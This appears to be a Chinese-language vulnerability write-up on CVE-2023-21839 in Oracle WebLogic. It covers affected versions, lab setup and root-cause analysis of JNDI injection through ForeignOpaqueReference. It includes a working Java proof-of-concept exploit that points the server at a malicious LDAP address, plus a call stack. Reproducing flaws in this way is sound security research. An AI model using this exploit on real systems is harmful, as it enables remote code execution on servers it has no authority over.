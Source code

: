 - [CVE-2023-21839 远程代码执行(JNDI)](#cve-2023-21839-远程代码执行jndi)
  - [影响版本](#影响版本)
  - [环境搭建](#环境搭建)
  - [原理分析](#原理分析)
    - [ForeignOpaqueReference](#foreignopaquereference)
  - [漏洞复现](#漏洞复现)
  - [参考](#参考)

# CVE-2023-21839 远程代码执行(JNDI)
## 影响版本
```
Weblogic 12.2.1.3.0  
Weblogic 12.2.1.4.0  
Weblogic 14.1.1.0.0  
```
实测12.1.3也受影响
## 环境搭建
https://github.com/QAX-A-Team/WeblogicEnvironment  
测试环境:  
Weblogic 12.1.3  
JDK: 8u112
## 原理分析
利用Weblogic中的RMI在lookup时对`OpaqueReference`子类的对象会调用`getReferent()`方法,寻找到一个可利用的`ForeignOpaqueReference`类,其相关方法中存在JNDI注入完成RCE.
### ForeignOpaqueReference
主要是利用Weblogic的JNDI在lookup一个对象时,如果该对象是`OpaqueReference`的子类,那么会调用其`getReferent()`方法.  
![](2023-02-24-17-51-17.png)  
而`ForeignOpaqueReference`則是实现了`OpaqueReference`且其`getReferent()`方法中存在一个JNDI注入的sink.  
![](2023-02-24-17-52-29.png)  
所以可以通过反射修改`ForeignOpaqueReference`对象的`remoteJNDIName`属性为恶意LDAP地址,获得一个恶意的ForeignOpaqueReference obj再将其绑定到weblogic的注册表上,再对该对象进行一次查询,那么就会触发`ForeignOpaqueReference#getReferent()`,最终触发JNDI注入. 
## 漏洞复现  
```java
import javax.naming.Context;
import javax.naming.InitialContext;
import javax.naming.NamingException;
import java.lang.reflect.Field;
import java.util.Hashtable;

public class poc {
    static String JNDI_FACTORY="weblogic.jndi.WLInitialContextFactory";
    private static InitialContext getInitialContext(String url)throws NamingException
    {
        Hashtable env = new Hashtable();
        env.put(Context.INITIAL_CONTEXT_FACTORY, JNDI_FACTORY);
        env.put(Context.PROVIDER_URL, url);
        return new InitialContext(env);
    }
    public static void main(String args[]) throws Exception {
        InitialContext c=getInitialContext("t3://127.0.0.1:7001");
        Hashtable env = new Hashtable();
        env.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");
        weblogic.deployment.jms.ForeignOpaqueReference obj=new weblogic.deployment.jms.ForeignOpaqueReference();
        Field jndiEnvironment=weblogic.deployment.jms.ForeignOpaqueReference.class.getDeclaredField("jndiEnvironment");
        jndiEnvironment.setAccessible(true);
        jndiEnvironment.set(obj,env);
        Field remoteJNDIName=weblogic.deployment.jms.ForeignOpaqueReference.class.getDeclaredField("remoteJNDIName");
        remoteJNDIName.setAccessible(true);
        remoteJNDIName.set(obj,"ldap://192.168.65.2:1389/pcho5q");
        c.rebind("poc",obj);
        c.lookup("poc");}
}
```
![](2023-02-24-18-00-00.png)  

![](2023-02-24-18-00-15.png)  
调用栈
![](2023-02-24-18-00-57.png)  
```
getObjectInstance:189, DirectoryManager (javax.naming.spi)
c_lookup:1085, LdapCtx (com.sun.jndi.ldap)
p_lookup:542, ComponentContext (com.sun.jndi.toolkit.ctx)
lookup:177, PartialCompositeContext (com.sun.jndi.toolkit.ctx)
lookup:205, GenericURLContext (com.sun.jndi.toolkit.url)
lookup:94, ldapURLContext (com.sun.jndi.url.ldap)
lookup:417, InitialContext (javax.naming)
getReferent:247, ForeignOpaqueReference (weblogic.deployment.jms)
getObjectInstance:92, WLNamingManager (weblogic.jndi.internal)
resolveObject:388, ServerNamingNode (weblogic.jndi.internal)
resolveObject:886, BasicNamingNode (weblogic.jndi.internal)
lookup:219, BasicNamingNode (weblogic.jndi.internal)
invoke:-1, RootNamingNode_WLSkel (weblogic.jndi.internal)
invoke:701, BasicServerRef (weblogic.rmi.internal)
invoke:231, ClusterableServerRef (weblogic.rmi.cluster)
run:527, BasicServerRef$1 (weblogic.rmi.internal)
doAs:363, AuthenticatedSubject (weblogic.security.acl.internal)
runAs:146, SecurityManager (weblogic.security.service)
handleRequest:523, BasicServerRef (weblogic.rmi.internal)
run:118, WLSExecuteRequest (weblogic.rmi.internal.wls)
execute:311, ExecuteThread (weblogic.work)
run:263, ExecuteThread (weblogic.work)
```
## 参考
https://www.oracle.com/security-alerts/cpujan2023verbose.html